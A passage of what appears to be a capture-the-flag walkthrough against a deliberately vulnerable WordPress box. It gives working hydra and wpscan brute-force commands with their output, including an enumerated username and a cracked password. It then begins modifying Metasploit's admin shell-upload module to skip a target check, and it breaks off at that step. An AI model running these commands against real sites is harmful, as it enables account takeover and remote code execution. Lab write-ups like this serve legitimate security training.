 With this new dictionary, it's time to attack the `/wp-login.php`.
Before crack the password with hydra, i capture the POST request with burpsuite and w3m configure with: (into `~/.w3m/config`)

+ use_proxy 1
+ http-proxy `http://127.0.0.1:8080`
+ https-proxy `http://127.0.0.1:8080`

Start `burpsuite` and `w3m http://192.168.2.106/wp-login.php`

Fill the formular and burpsuite return that:

```
POST /wp-login.php HTTP/1.0
---
log=WeirdUsernamel&pwd=WeirdPasswd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.106%2Fwp-admin%2F&testcookie=1
```

Rather than attack the page with username and password in the same time (it takes too long), we first, check a valid username like wordpress generate an error when username is good and password not.

    $ hydra -V -L fsociety_sort.dic -p test -f 192.168.2.106 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.106%2Fwp-admin%2F&testcookie=1:Bad Loggin' 1&>log.txt

All valid lines contain `http-post-form`:

    $ grep -i http-post-form log.txt

```
[DATA] attacking service http-post-form on port 80
[80][http-post-form] host: 192.168.2.106   login: elliot   password: test
[80][http-post-form] host: 192.168.2.106   login: Elliot   password: test
[80][http-post-form] host: 192.168.2.106   login: ELLIOT   password: test
```

We found the username `elliot`, next, the password...

    $ wpscan -u 192.168.2.106 --username elliot --wordlist ~/fsocity_sort.dic

```
Brute Forcing 'elliot' Time: 00:06:49 <===========            > (5630 / 11452) 49.16%  ETA: 00:07:03
  +----+--------+------+-----------+
  | ID | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+
```

With these informations, we will use the module `wp_admin_shell_upload.rb` from `metasploit`.

Before use, we need to edit the source code and comment one line :)

    $ vim /usr/lib64/metasploit4.16/modules/exploits/unix/webapp/wp_admin_shell_upload.rb

And change the line:

    fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
